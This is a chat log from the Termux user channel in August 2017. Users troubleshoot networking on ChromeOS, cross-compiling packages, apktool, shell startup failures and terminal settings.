2017-08-02 17:09:01	gitter	(christianrondeau) @fornwall and @frumpylava - I just read your conversation about doze mode and the wake lock slowing down Termux (when I'm using SSH to connect to my phone, I have to continually touch the screen to keep it on :P ) - I understand there's a plan to add Termux to the whitelist https://developer.android.com/training/monitoring-device-state/doze-standby.html#whitelisting-cases, but since there's no issue in GitHub and I'm very 

2017-08-02 17:09:01	gitter	create one for follow-up and knowing if/when it's done/abandoned?

2017-08-02 18:12:09	keeger	hello guys

2017-08-02 18:12:44	keeger	i am having a little trouble with accessing a webserver in a termux console.  was wondering if someone can help?

2017-08-02 18:14:34	keeger	basically i have a lan, 192.168.*, and my chromebook with termux is running at localhost port 8080.  i can connect to it via the local browser using the termux ip, which is like 100. something.  however, my other computer can't see that.

2017-08-02 18:15:08	keeger	is there a way to set this up so it can be seen by devices on the same network?

2017-08-02 18:19:43	cottongin	i don't know if chromeos has firewall options or not, you could try port forwarding in your router

2017-08-02 18:20:17	keeger	it's something on the chromebook or termux that's in the way

2017-08-02 18:20:28	cottongin	chromebook

2017-08-02 18:20:57	cottongin	i doubt you can expose the internal (chromebook+termux) network to the rest of your network

2017-08-02 18:21:47	cottongin	at least not without being in dev mode and using croton (perhaps)

2017-08-02 18:23:53	u0_a193	howdy

2017-08-02 18:24:56	keeger	hmm i was hoping to avoid that

2017-08-02 18:25:45	u0_a193	how can i install gnu cobol in termux?

2017-08-02 18:26:30	keeger	i know i can setup SSH server in termux, I wonder if I can setup some kind of tunnel?

2017-08-02 18:27:21	keeger	so a request comes from my other machine to the ip, and it sends it through the ssh pathway?

2017-08-02 18:46:08	stef204	hi, just installed locate, and ran 'updatedb' but nothing shows when I try to use locate.  It looks like either the db did not get created or updatedb needs something else?

2017-08-02 20:29:15	gitter	(AshleyNykiel) locate updatedb

2017-08-02 20:33:15	gitter	(AshleyNykiel) updatedb -v

2017-08-02 21:21:03	gitter	(pizzapanther) trying to install node.js via nvm and it hangs on a git clone, any suggestions?

2017-08-02 22:04:51	gitter	(pizzapanther) weird used the manual install and it works

2017-08-02 22:13:32	gitter	(vishalbiswas) live_the_dream: it needs to link the so in the first place. I used a hack which defines `__builtin_smull_overflow` as a macro

2017-08-02 22:25:20	live_the_dream	openblas for arm softfp ...

2017-08-02 22:25:20	live_the_dream	no more compiling libatlas

2017-08-02 22:53:19	gitter	(vishalbiswas) no idea what you're about

2017-08-02 23:08:58	live_the_dream	lets just say  the most annoying part of supporting scipy is no longer

2017-08-02 23:11:05	gitter	(vishalbiswas) I looked into openblas repo and it seems the code for android was there for some time

2017-08-02 23:12:01	live_the_dream	android hardfp

2017-08-02 23:12:01	live_the_dream	on arm

2017-08-02 23:12:07	live_the_dream	we use softfp

2017-08-02 23:12:24	live_the_dream	its only avail with 0.2.20

2017-08-02 23:12:30	gitter	(vishalbiswas) does it matter? we can execute both, couldn't we?

2017-08-02 23:13:15	live_the_dream	no

2017-08-02 23:13:42	gitter	(vishalbiswas) "no" to 1st part or 2nd part

2017-08-02 23:14:16	live_the_dream	second part

2017-08-02 23:14:58	gitter	(vishalbiswas) all armv7-a chips are hardfp, what's the problem then?

2017-08-02 23:15:03	live_the_dream	no execute hardfp... you can't link softfp and hardfp

2017-08-02 23:15:03	live_the_dream	or something

2017-08-02 23:15:03	live_the_dream	its still there in android

2017-08-02 23:15:03	live_the_dream	just not in our bit

2017-08-02 23:15:16	live_the_dream	google dropped support

2017-08-02 23:16:09	live_the_dream	recommending softfp

2017-08-02 23:16:47	gitter	(vishalbiswas) okay so no linking between hard and soft float

2017-08-02 23:38:45	gitter	(vishalbiswas) anybody with prior scons knowledge?

2017-08-02 23:39:00	gitter	(vishalbiswas) `scons: *** [core] Source \`mongo' not found, needed by target `core'.`

2017-08-02 23:39:10	gitter	(vishalbiswas) `scons: *** [core] Source 'mongo' not found, needed by target 'core'.`

2017-08-02 23:41:20	mason_	anybody had any luck getting Ruby native gems to build in Termux?

2017-08-02 23:41:44	keeger	is there a firewall built into termux?

2017-08-02 23:42:15	keeger	i'm trying to figure out why the termux IP is not the same as the device ip

2017-08-02 23:42:22	gitter	(vishalbiswas) chromeos?

2017-08-02 23:42:49	keeger	yea

2017-08-02 23:42:53	gitter	(vishalbiswas) mason_: native gems do build

2017-08-02 23:43:36	mason_	seems like they should I must be missing something

2017-08-02 23:43:43	gitter	(vishalbiswas) keeger: android sub system is practically a virtual machine in chrome os. that network mismatch is in the design

2017-08-02 23:43:50	mason_	trying to build Nokogiri

2017-08-02 23:44:11	mason_	I installed libxml2 through the pkg system

2017-08-02 23:44:28	keeger	gitter, i am trying to access a webserver running in termux from a device on the lan.  but i can't get a route to it

2017-08-02 23:44:28	gitter	(vishalbiswas) mason_: there #69 and #79 should help

2017-08-02 23:44:29	mason_	I think I need to point the build process to use that, but I'm not sure which file/dir to point it to

2017-08-02 23:44:56	gitter	(vishalbiswas) keeger: try ifconfig to get the ip of termux

2017-08-02 23:45:53	keeger	gitter, i do that, and get 100.115.92.2  but I can't access that from my 192.168 network

2017-08-02 23:46:01	keeger	i have no route to it

2017-08-02 23:46:24	keeger	but i don't see iptables on chromeos to set up a forwarding thing

2017-08-02 23:47:33	gitter	(vishalbiswas) can you access it within chromeos and also within termux?

2017-08-02 23:48:34	keeger	yeah.  inside termux i can do localhost with lynx and it's fine.  in chromeos i can use the 100.x.x.x ip and it works.  but i want to access the site from a 2nd device that is on the same network as the chromeos device.  they both are in 192.168 network

2017-08-02 23:50:10	gitter	(vishalbiswas) there must be a way to port forward

2017-08-02 23:50:38	mason_	thanks gitter, that worked perfectly!

2017-08-02 23:50:42	keeger	gitter, i haven't found one yet.  everyone wants to root the chromeos, but i'd like to avoid that.  that's the only missing step

2017-08-02 23:50:54	gitter	(vishalbiswas) seems like you need to be in dev mode

2017-08-02 23:51:15	keeger	but doens't that wipe the device?

2017-08-02 23:51:22	gitter	(vishalbiswas) https://www.chromestory.com/2013/09/default-port-forwarding-git-integration-chromebook/

2017-08-02 23:51:34	gitter	(vishalbiswas) says it should be available at chrome://inspect

2017-08-02 23:52:32	gitter	(vishalbiswas) there is port forwarding button there

2017-08-02 23:52:48	keeger	OOOH

2017-08-02 23:52:57	keeger	dude, i have shitty google skills

2017-08-02 23:56:32	gitter	(vishalbiswas) i assume rooting must be required for ports below 1024, so you should be good for anything above that

2017-08-02 23:59:48	keeger	bleh it's not working.  per the help in chrome, it's part of remote android debugging and requires me to plug in an android device via usb

2017-08-03 00:00:00	keeger	which explains why it's next to the discover USB checkbox

2017-08-03 00:02:32	gitter	(vishalbiswas) are you sure there's no iptable?

2017-08-03 00:02:35	keeger	not in unrooted

2017-08-03 00:02:44	keeger	i assume its there but locked

2017-08-03 00:02:58	keeger	it's not in the chroot advanced commands terminal

2017-08-03 00:03:32	keeger	can i socks proxy it somehow?

2017-08-03 00:03:59	keeger	i mean i can do that locally, but i can't see how to expose that to the 2nd device

2017-08-03 00:04:19	gitter	(vishalbiswas) is there a chrome extension webserver which can act as a relay?

2017-08-03 00:05:32	keeger	oh maybe.  there is an extension hmm

2017-08-03 00:06:07	keeger	https://chrome.google.com/webstore/detail/web-server-for-chrome/ofhbbkphhbklhfoeikjpcbhemlocgigb?hl=en

2017-08-03 00:06:14	keeger	seems like this might do the trick

2017-08-03 00:06:26	gitter	(vishalbiswas) keeger: try this too -> https://serverfault.com/questions/252150/port-forwarding-on-linux-without-iptables

2017-08-03 00:06:38	mason_	Awesome, even got RVM compiling another Ruby version

2017-08-03 00:07:11	mason_	incidentally, does anybody know why that Ken White article recommends SSHing into Termux?

2017-08-03 00:07:20	mason_	The normal termux console seems fine to me

2017-08-03 00:07:55	live_the_dream	the terminal on chromium using android stuff isn't done right

2017-08-03 00:07:55	live_the_dream	i think

2017-08-03 00:07:57	live_the_dream	i don't have chromeos so i dunno

2017-08-03 00:08:14	keeger	mason_, i didn't do that step because it didn't make much sense to me either.  i was thinking maybe multiple ssh sessions?

2017-08-03 00:08:24	gitter	(vishalbiswas) who is ken white?

2017-08-03 00:08:56	live_the_dream	yeah

2017-08-03 00:09:06	keeger	gitter, a guy who wrote an article on how to setup a developer chromebook without rooting / crouton / ubuntu.  he leverages Termux :)

2017-08-03 00:09:14	mason_	wrote this article on using Termux on Chromebooks https://blog.lessonslearned.org/building-a-more-secure-development-chromebook/

2017-08-03 00:09:26	keeger	https://blog.lessonslearned.org/building-a-more-secure-development-chromebook/

2017-08-03 00:10:00	gitter	(vishalbiswas) i read that blog but never the author's name

2017-08-03 00:10:22	mason_	ah yeah, figured it'd be an easier way to refer to it

2017-08-03 00:11:03	mason_	I set up the SSH, but I don't see much point to it

2017-08-03 00:11:57	mason_	maybe copy and paste between the main OS I guess?

2017-08-03 00:12:09	mason_	looks like one of the termux extensions might do that though

2017-08-03 00:12:30	keeger	yeah i couldn't make heads or tails of that.  unless it's related to the init stuff

2017-08-03 00:12:48	keeger	sshd start = init start maybe

2017-08-03 00:13:44	gitter	(vishalbiswas) is there a chromeos virtual machine possible?

2017-08-03 00:13:56	keeger	i didn't realize it would be so difficult to make this server available to the network.

2017-08-03 00:14:14	gitter	(vishalbiswas) did you try the socat method?

2017-08-03 00:14:49	keeger	socat?  i tried that extension i just found, but its for physical files/folders

2017-08-03 00:15:06	mason_	I wonder if you could SSH out from termux to the other machine and set up port forwarding

2017-08-03 00:15:13	gitter	(vishalbiswas) keeger: https://serverfault.com/questions/252150/port-forwarding-on-linux-without-iptables

2017-08-03 00:16:03	live_the_dream	hmmm

2017-08-03 00:16:03	live_the_dream	might have to get a chromeos image for virtualbox or something

2017-08-03 00:17:19	gitter	(vishalbiswas) Cr OS is available, but, does it support android apps like the real one?

2017-08-03 00:17:56	keeger	gitter, in order to android apps you have to set it to beta channel and install play store

2017-08-03 00:18:05	live_the_dream	no idea

2017-08-03 00:18:06	live_the_dream	probably not

2017-08-03 00:18:08	keeger	so if you try the vm, make sure you know that step

2017-08-03 00:19:06	live_the_dream	btw im setting up my build stuff so ... getting what chromeos needs most

2017-08-03 00:19:07	live_the_dream	a fortran compiler

2017-08-03 00:19:15	live_the_dream	for your fortran on the go needs

2017-08-03 00:20:22	mason_	thanks all and good night

2017-08-03 00:20:44	gitter	(vishalbiswas) good morning to you too

2017-08-03 00:22:46	keeger	found a port forwarding app in the play store.  gonna give that a shot

2017-08-03 00:23:33	gitter	(vishalbiswas) anything android probably won't work

2017-08-03 00:25:56	keeger	oh right

2017-08-03 00:26:27	keeger	i wish that web server wasn't so file oriented heh

2017-08-03 01:53:00	gitter	(vishalbiswas) ```

2017-08-03 01:53:00	gitter	(vishalbiswas) fatal error: error in backend: Cannot select: 0x106cbf08: i32 = truncate 0x1058d248

2017-08-03 01:53:00	gitter	(vishalbiswas)   0x1058d248: f64 = ARMISD::VMOVDRR 0x106c0da8, 0x105c0a50

2017-08-03 01:53:00	gitter	(vishalbiswas) [full message: https://gitter.im/termux/termux?at=5982ba3c2723db8d5e6df108]

2017-08-03 01:53:32	gitter	(vishalbiswas) any ideas?

2017-08-03 02:14:12	live_the_dream	what is that vish?

2017-08-03 02:16:06	live_the_dream	what you trying to do? mongodb?

2017-08-03 04:07:26	sdrausty	#termux│16:57:06 jelly | binary debs or source code?  http://ircbots.debian.net/stats/

2017-08-03 04:08:33	sdrausty	http://blootbot.sf.net, or "apt-get source blootbot"

2017-08-03 07:11:52	gitter	(Techzindia) Can anyone Try to install Apktool in termux...

2017-08-03 07:37:17	gitter	(Hax4us) @Techzindia  our YAML library (SnakeYAML isn't compatible on top of Android).

2017-08-03 07:37:17	gitter	(Hax4us)

2017-08-03 07:37:17	gitter	(Hax4us) Finally, our native binary (aapt) that has builds for Mac 64/32, Unix 64/32 and Windows doesn't have an ARM build for AOSP. That is why , bro....i think we cant use apktool...in termux...but ...well...nothing..is impossible...maybe...it can be possible..in future..

2017-08-03 08:27:02	gitter	(Hax4us) @vishalbiswas @frumpylava @sdrausty guys...please...tell..me..the alternatives of lib32stdc++6 lib32ncurses5 lib32z1 in termux....plz...i m very near...to run apktool

2017-08-03 08:46:05	Benl90	Hello, I've question, is there any shortcut to move between terminal window? Thanks

2017-08-03 08:52:00	Benl90	anyone?

2017-08-03 08:52:13	Benl90	sdrausty: Are you there?

2017-08-03 10:08:50	gitter	(Hax4us) Hey.all..are bsy...?

2017-08-03 10:08:57	gitter	(Hax4us) @vishalbiswas

2017-08-03 11:25:40	gitter	(vishalbiswas) We have ncurses, others are not required

2017-08-03 11:26:38	gitter	(vishalbiswas) live_the_dream: yes mongodb

2017-08-03 12:06:59	gitter	(vishalbiswas) seems like a problem with mozilla (spidermonkey) source

2017-08-03 12:09:25	gitter	(Hax4us) @vishalbiswas have u any idea about this error comes while decompile apk using apktool in termux

2017-08-03 12:09:31	gitter	(Hax4us) WARNING: Could not write to $HOME (/data/data/com.termux/files/home/apktool/?), using /tmp instead...                S: Please be aware this is a volatile directory and frameworks could go missing, please utilize --frame-path if the default storage directory is unavailable

2017-08-03 12:09:53	gitter	(vishalbiswas) mkdir $HOME/apktool

2017-08-03 12:11:40	gitter	(Hax4us) I have folder apktool in home directory...@vishalbiswas

2017-08-03 12:12:00	gitter	(Hax4us) My app is in apktool folder

2017-08-03 12:12:13	gitter	(Hax4us) And apktool.jar file also

2017-08-03 12:12:26	gitter	(vishalbiswas) no java in termux

2017-08-03 12:12:42	gitter	(Hax4us) But i have...

2017-08-03 12:12:53	gitter	(Hax4us) Can I send screenshot

2017-08-03 12:12:56	gitter	(vishalbiswas) k

2017-08-03 12:13:27	gitter	(Hax4us) Is there any option in gitter app

2017-08-03 12:13:30	gitter	(Hax4us) To send pic

2017-08-03 12:14:24	gitter	(Hax4us) @vishalbiswas where I send bro

2017-08-03 12:15:04	gitter	(vishalbiswas) imgur

2017-08-03 12:16:58	gitter	(Hax4us) http://imgur.com/a/8ZLCS

2017-08-03 12:17:06	gitter	(Hax4us) See bro my java version

2017-08-03 12:17:44	gitter	(vishalbiswas) ok then paste the commands you used to run apktool

2017-08-03 12:18:52	gitter	(Hax4us) java -jar apktool.jar d myapp.apk

2017-08-03 12:19:54	gitter	(vishalbiswas) can you try to `touch $HOME/apktool/?`

2017-08-03 12:21:10	gitter	(Hax4us) Kk..try karta hu...ohh.. :smile: srry for Hindi...

2017-08-03 12:21:25	gitter	(Hax4us) U understand Hindi..?

2017-08-03 12:21:34	gitter	(vishalbiswas) kuch nahi bas sab ko samajh aaye isliye english recommend karta hu

2017-08-03 12:22:23	gitter	(Hax4us) Are bhai..ho tum to...kk..I can understand.. Bro..well...I m trying..and..then tell..u result

2017-08-03 12:22:23	gitter	(vishalbiswas) live_the_dream: more the 2 and 1/2 years https://bugs.llvm.org/show_bug.cgi?id=23244

2017-08-03 12:28:41	gitter	(Hax4us) @vishalbiswas touch $HOME/apktool/?

2017-08-03 12:28:55	gitter	(Hax4us) I have to type question mark ?

2017-08-03 12:29:08	gitter	(vishalbiswas) that's what fails i think

2017-08-03 12:30:05	gitter	(Hax4us) I m not getting u...bro..what r u trying to say...can u tell in easy way

2017-08-03 12:30:15	gitter	(Hax4us) Plz

2017-08-03 12:30:15	gitter	(vishalbiswas) yes with ?

2017-08-03 12:30:29	gitter	(Hax4us) Kk

2017-08-03 12:36:01	gitter	(Hax4us) Thnx bro...but one more error is coming

2017-08-03 12:36:15	gitter	(Hax4us) Can I give image

2017-08-03 12:36:23	gitter	(Hax4us) @vishalbiswas

2017-08-03 12:36:36	gitter	(vishalbiswas) ofcourse

2017-08-03 12:37:08	gitter	(Hax4us) U r great BRo..u have great helping mind..

2017-08-03 12:52:59	sdrausty	IRC / Gitter bot is down

2017-08-03 12:58:36	sdrausty	https://github.com/dex4er/fakechroot/blob/master/README.md

2017-08-03 13:48:53	keeger	hello.  trying to get reverse SSH working with termux, but i'm getting a permission denied

2017-08-03 13:49:13	keeger	do i need to configure a rsa key pair to succeed?

2017-08-03 13:57:47	keeger	ooh i did and it worked

2017-08-03 13:57:54	keeger	huzzah!

2017-08-03 13:57:56	keeger	lol

2017-08-03 14:12:18	sdrausty	ssh site:termux.com

2017-08-03 14:12:30	sdrausty	https://termux.com/ssh.html

2017-08-03 17:47:11	fornwall	live_the_dream: I tried running cmake on a simple hello world project, using android 6.0 arm, and it worked. does cmake not run at all for you on arm? which android version?

2017-08-03 17:48:20	live_the_dream	dunno its probablly on my end only

2017-08-03 17:49:21	live_the_dream	it looked like it isn't, detecting when a file is compiled.

2017-08-03 17:49:24	live_the_dream	so when it does a test if  compiler works it never moves..

2017-08-03 17:56:27	live_the_dream	also iv gotten arm aarch64 buiilds of nodejs-current

2017-08-03 17:56:27	live_the_dream	working afaik

2017-08-03 17:57:29	live_the_dream	arm required an annoying hack

2017-08-03 17:57:29	live_the_dream	and i am going to try x86_64 at some point today

2017-08-03 17:58:10	gitter	(fornwall) @christianrondeau please create an issue about the Battery Optimizations exceptions whitelist if there isn't one already, with as much information as possible, as I don't remember the details what we said :)

2017-08-03 17:58:30	live_the_dream	with armv7 openblas i might be able to get something could be reasonably added

2017-08-03 17:59:46	live_the_dream	on openblas + fortran stuff

2017-08-03 18:00:35	fornwall	android version may be relevant for the cmake problem, which version do you get the problem on?

2017-08-03 18:01:33	live_the_dream	arm and arm only

2017-08-03 18:02:24	fornwall	sorry, meant android version, as on android 5/6/7

2017-08-03 18:03:40	live_the_dream	oh 6 / 7 if its working for you its on my end only

2017-08-03 18:07:20	fornwall	well, it may be depending one something else. someone else who can try running cmake on a simple project on arm and see if it works?

2017-08-03 18:56:57	sdrausty	@fornwall Thank you for fixing ~nodebot :)

2017-08-03 20:02:17	fornwall	sdrausty: no problem, should really set up a monitor for it, it dies sporadically with a node.js stack trace

2017-08-03 20:03:58	fornwall	sdrausty: finally the termux:boot app has been published, it should be available in google play (awaiting publication to go through) and f-droid (awaiting a pull request to be merged) shortly!

2017-08-03 20:16:40	sdrausty	@fornwall This is very good news. Thank you for creating Termux:boot to all those who contributed. I have been using a short `boot.sh` bash script which still suits my purposes. I give the f-droid version a try when it comes up. Do you know how to find it on f-droid? They seem to have rearranged the search feature and it seems like they lost some code and APKs in the process too.

2017-08-03 20:18:45	fornwall	I think it should be available at https://f-droid.org/packages/com.termux.boot/ when ready

2017-08-03 20:18:51	sdrausty	Missing source & APK https://f-droid.org/packages/io.github.mthli.Ninja/

2017-08-03 20:19:07	sdrausty	THANK YOU

2017-08-03 20:19:26	fornwall	I'll put in a link to it from the README at the termux-boot repo when available

2017-08-03 20:25:09	sdrausty	great 

2017-08-03 20:25:42	sdrausty	mount loop device filesystem

2017-08-03 20:30:47	sdrausty	have you had a chance to review https://play.google.com/store/apps/details?id=com.cuntubuntu https://github.com/pelya/debian-noroot I thinck this app might have the key to the native Android space issue @fornwall

2017-08-03 20:31:17	sdrausty	as far as mounting filesystems from files

2017-08-03 20:31:36	sdrausty	via loop device or devices

2017-08-03 21:02:47	fornwall	no, haven't had the time yet, will look at it when I'm back from vacation next week!

2017-08-03 21:10:43	gitter	(christianrondeau) @fornwall @frumpylava - I have created an issue here https://github.com/termux/termux-app/issues/377 for the "doze mode" slowing down issue (for tracking purposes). I referenced the gitter conversation that made me hopeful in it, as well the article from the Android documentation :) Thanks!

2017-08-03 21:12:42	gitter	(fornwall) @christianrondeau thanks!

2017-08-03 21:23:13	sdrausty	happy vacationing :) @forwall

2017-08-03 21:29:55	sdrausty	please install https://github.com/pelya/debian-noroot 

2017-08-03 21:30:09	sdrausty	https://play.google.com/store/apps/details?id=com.cuntubuntu It magical mounts a file system. I believe it uses https://github.com/pelya/fakechroot

2017-08-03 21:32:11	sdrausty	to accomplish thesought after goal of https://github.com/termux/termux-packages/issues/1176 More Native Space on Device 

2017-08-03 21:58:35	gitter	(sdrausty) You will want a keyboard and mouse to really enjoy Debian Noroot on device. That is one of its' flaws.

2017-08-03 22:26:14	sdrausty	magical mounts *magically mounts

2017-08-03 22:28:46	sdrausty	btw is ~nodebot running in Termux on device or somewhence else?

2017-08-03 22:46:14	poyntz	hi. does anyone know how to make termux launch from hero2lte@<device name> rather than a0_<something>@localhost?

2017-08-03 22:46:41	poyntz	*make termux bash launch from

2017-08-03 22:49:35	poyntz	the only way ive been able to get to hero2lte is via su which ofcourse puts you in #, but want to be in $ on hero2lte in termux bash like what happens in adb

2017-08-03 22:59:27	live_the_dream	yeah do a search for "Bash PS1 prompt variable"  in google

2017-08-03 23:02:04	gitter	(Hax4us) @sdrausty

2017-08-03 23:04:12	gitter	(Hax4us) @vishalbiswas bro..i m in very strange condition.... I dont know how..but today..when I opened TERMUX it says process completed (code 1) -press enter

2017-08-03 23:05:19	gitter	(Hax4us) Whenever I trying to open termux. It says..process completed (code -1) - press enter :worried:  when I enter...app closed

2017-08-03 23:13:33	gitter	(vishalbiswas) @Hax4us Swipe from left, then tap and hold on new session. tap safe mode. Then remove any `.bashrc` or similar files

2017-08-03 23:19:27	gitter	(Hax4us) @vishalbiswas BRo..  .bashrc file is not needed. ? R u sure..?  I should delete .bashrc

2017-08-03 23:20:52	gitter	(Hax4us) Is it safe to delete .bashrc file ?

2017-08-03 23:23:14	gitter	(Hax4us) .bashrc deleted.. Now problem is still live...and safe mode is working...

2017-08-03 23:27:28	sdrausty	https://mobile.twitter.com/SDRausty/status/893311968890826752

2017-08-03 23:27:30	gitter	(vishalbiswas) @Hax4us show output of `ls -lah $HOME`

2017-08-03 23:28:12	gitter	(sdrausty) @Hax4us

2017-08-03 23:28:48	gitter	(sdrausty) Is your device rooted?

2017-08-03 23:28:54	gitter	(Hax4us) Yes

2017-08-03 23:29:00	gitter	(Hax4us) Rooted

2017-08-03 23:29:23	gitter	(Hax4us) @vishalbiswas unknown option -h aborting

2017-08-03 23:29:28	gitter	(sdrausty) By whome

2017-08-03 23:29:40	gitter	(vishalbiswas) then just `ls -la $HOME`

2017-08-03 23:31:49	gitter	(Hax4us) http://imgur.com/a/bHxrj

2017-08-03 23:31:54	gitter	(Hax4us) Here is output @vishalbiswas

2017-08-03 23:32:46	gitter	(sdrausty) whome *whom

2017-08-03 23:32:46	gitter	(sdrausty) https://www.google.com/search?q=define%3Awhom @Hax4us  What is the app you rooted your device with?

2017-08-03 23:33:25	gitter	(Hax4us) SuperSu @sdrausty

2017-08-03 23:35:30	gitter	(vishalbiswas) @Hax4us now `ls -la /data/data/com.termux/files/usr/bin/bash`

2017-08-03 23:35:50	sdrausty	Package requests: su, sudo, termux-make-root and termux-make-unroot are potential spin-offs. From https://github.com/termux/termux-packages/issues/1176 Thank you @Hax4us

2017-08-03 23:35:52	gitter	(vishalbiswas) and why did you use root? I hope you didn't try to install any packages using root

2017-08-03 23:36:32	sdrausty	ircd rebooted my Android @vishalbiswas

2017-08-03 23:36:45	gitter	(Hax4us) @vishalbiswas I m using root for install java 1.7.0 and apktool

2017-08-03 23:36:47	gitter	(vishalbiswas) @sdrausty ask your loopback question here -> https://groups.google.com/forum/?fromgroups#!forum/android-platform

2017-08-03 23:38:14	gitter	(Hax4us)  -rwx------ u0_a236  u0_a236    704224 2017-08-02 17:42 bash

2017-08-03 23:38:16	gitter	(Hax4us) It is output

2017-08-03 23:38:34	gitter	(Hax4us) It is enough ? Should I send pic ?

2017-08-03 23:39:15	sdrausty	thx for the lead lol

2017-08-03 23:39:20	gitter	(vishalbiswas) and is there anything in `/data/data/com.termux/files/usr/etc/profile.d` and paste what's in `/data/data/com.termux/files/usr/etc/profile`

2017-08-03 23:41:13	gitter	(Hax4us) There is no any any profile.d file and it is content of profile file

2017-08-03 23:41:23	gitter	(Hax4us) for i in /data/data/com.termux/files/usr/etc/profile.d/*.sh; do

2017-08-03 23:41:23	gitter	(Hax4us) 	if [ -r $i ]; then

2017-08-03 23:41:23	gitter	(Hax4us) 		. $i

2017-08-03 23:41:23	gitter	(Hax4us) [full message: https://gitter.im/termux/termux?at=5983ece376a757f80872adf1]

2017-08-03 23:43:06	gitter	(vishalbiswas) everything looks fine to me

2017-08-03 23:43:29	gitter	(vishalbiswas) there's nothing i can do, you'll have to reinstall termux

2017-08-03 23:44:13	gitter	(Hax4us) :worried: 😶kk..bro..thnx..for help..

2017-08-03 23:46:13	sdrausty	I have updated https://github.com/termux/termux-app/issues/376 Have you tried https://play.google.com/store/apps/details?id=com.cuntubuntu on unrooted device? Please do; It mounts a filesystem from file nonroot as far as I know using https://github.com/pelya/fakechroot I am requesting an opinion about Debian Noroot from the Google Play Store, and more importantly the snippets of source code from

2017-08-03 23:46:13	sdrausty	https://github.com/pelya/debian-noroot and/or https://github.com/dex4er/fakechroot

2017-08-03 23:47:59	sdrausty	to resolve #1176 #375 & #376 regarding more native Android space on device.

2017-08-03 23:50:06	gitter	(Hax4us) Debian noroot not working in android 5.1 bcz I have

2017-08-03 23:50:47	gitter	(Hax4us) It crashed each time

2017-08-03 23:55:20	sdrausty	thx @Hax4us noroot on device is prerequisite https://www.google.com/search?q=define%3Aprerequisite to esting nonroot applications. 

2017-08-03 23:56:46	sdrausty	esting *testing thx fir your input @Hax4us

2017-08-03 23:59:11	sdrausty	@Hax4us Please research `bashrc site:tldp.org` The results are usually were enlightening.

2017-08-04 00:00:01	sdrausty	https://duckduckgo.com/?q=bashrc+site%3Atldp.org

2017-08-04 00:14:30	sdrausty	@fonwall @vishalbiswas anl everyone here Does Anyone Want to Have More Native Space on Device? · Issue #1176 · termux/termux-packages

2017-08-04 00:21:43	sdrausty	Can anyone here test Debian Noroot from the Playstore so see whether it actually mounts a filesystem on device. I believe it does just like gnuroot, also available from the Google Play Store. These apps mount images from files nonroot on device. Which snippets of source code do these apps use?

2017-08-04 00:22:28	gitter	(sdrausty) Please.

2017-08-04 00:53:27	gitter	(themastersunil) anyone can tell me how to install tput setaf package library in termux?

2017-08-04 00:53:57	gitter	(vishalbiswas) ncurses-util

2017-08-04 00:55:06	gitter	(themastersunil) apt install ncurses-util

2017-08-04 00:55:06	gitter	(themastersunil) Reading package lists... Done

2017-08-04 00:55:06	gitter	(themastersunil) Building dependency tree

2017-08-04 00:55:06	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=5983fe291c8697534a885728]

2017-08-04 00:56:36	gitter	(vishalbiswas) ncurses-utils

2017-08-04 01:00:06	gitter	(themastersunil) ::::::::::::::::::::

2017-08-04 01:00:07	gitter	(themastersunil) -e \E[1;33m:::\e[97m[1] \e[90mPayload       \e[97m [Create a payload with msvenom]  \E[1;33m

2017-08-04 01:00:07	gitter	(themastersunil) tput: No value for $TERM and no -T specified

2017-08-04 01:00:07	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=5983ff5676a757f80872e323]

2017-08-04 01:00:23	gitter	(themastersunil) still I'm facing this issue😰

2017-08-04 01:00:59	gitter	(vishalbiswas) `export TERM=xterm-256color`

2017-08-04 01:01:10	gitter	(vishalbiswas) inside msfconsole

2017-08-04 01:01:26	gitter	(themastersunil) first I'll install metasploit????

2017-08-04 01:01:37	gitter	(vishalbiswas) you are in metasploit?

2017-08-04 01:01:52	gitter	(themastersunil) nope, this is ezsploit

2017-08-04 01:12:51	gitter	(themastersunil) Issue https://imgur.com/gallery/xZGPR

2017-08-04 01:12:59	gitter	(themastersunil) Please check it

2017-08-04 01:15:11	gitter	(vishalbiswas) echo $TERM

2017-08-04 01:15:16	gitter	(vishalbiswas) what does it show?

2017-08-04 01:17:35	gitter	(themastersunil) $ echo $TERM

2017-08-04 01:17:35	gitter	(themastersunil) xterm-256color

2017-08-04 01:17:35	gitter	(themastersunil) $

2017-08-04 01:22:27	gitter	(themastersunil) 😰 $TERM environment variable not set.

2017-08-04 01:22:49	gitter	(themastersunil) ??

2017-08-04 01:27:53	gitter	(themastersunil) when i run ezploit...

2017-08-04 01:28:13	gitter	(themastersunil) why?

2017-08-04 01:28:23	gitter	(themastersunil) I'm getting this issue?

2017-08-04 02:52:34	live_the_dream	ooo worked out how to cross compile nodejs-current on all archs now

2017-08-04 09:24:06	BrainDam1	hi, is there a command to set screen timeout?

2017-08-04 10:27:44	gitter	(AshleyNykiel) Latest nvim installed from termux repo, latest spavevim installed from git repo, installing plugin vimfiler produces following error and crashes nvim :-(

2017-08-04 10:27:44	gitter	(AshleyNykiel)

2017-08-04 10:27:44	gitter	(AshleyNykiel) invalid address or address of corrupt block 0xb85be9b8 passed to dlfree

2017-08-04 10:27:44	gitter	(AshleyNykiel) [full message: https://gitter.im/termux/termux?at=598484611c8697534a8a888b]

2017-08-04 11:30:46	sdrausty	Why does weechat dance all over my Termux screen? Up and down, refresh. Just a moment, then refresh again and soforth. What is making weechat refresh the screen by blinking and blinking again in Termux on Android?

2017-08-04 12:23:03	gitter	(AshleyNykiel) oops meant spacevim

2017-08-04 18:56:52	sdrausty	¹

2017-08-04 22:39:23	swift110-phone	hey

2017-08-04 23:33:43	rods-tab3	hay

2017-08-04 23:43:55	poyntz	hi. is there any way to run termux apps using tsu -s su?

2017-08-04 23:44:46	poyntz	I get Permission Denied every time I call on an app in the app data library, ie. /data/data/com.termux/files/usr/bin

2017-08-04 23:45:32	poyntz	tsu runs busybox commands fine, just getting permission issues on the termux commands

2017-08-04 23:46:50	poyntz	(excluding make which seems to run up until it hits a permission error when it calls /bin/su (which doesn't exist), and putting the su symlink into /bin didn't fix anything :(

2017-08-04 23:48:05	poyntz	running tsu -s sh didn't work either - just got permission denied on every command under sh

2017-08-04 23:50:29	poyntz	reason I'm using tsu is because su doesn't have the make command (termux command)

2017-08-05 00:48:37	gitter	(themastersunil) $ starfedora

2017-08-05 00:48:37	gitter	(themastersunil) starfedora: command not found                      $ startfedora

2017-08-05 00:48:37	gitter	(themastersunil) [termux@fedora termux-fedora]$ dnf update

2017-08-05 00:48:51	gitter	(themastersunil) dnf update not working

2017-08-05 00:49:03	gitter	(themastersunil) Please help

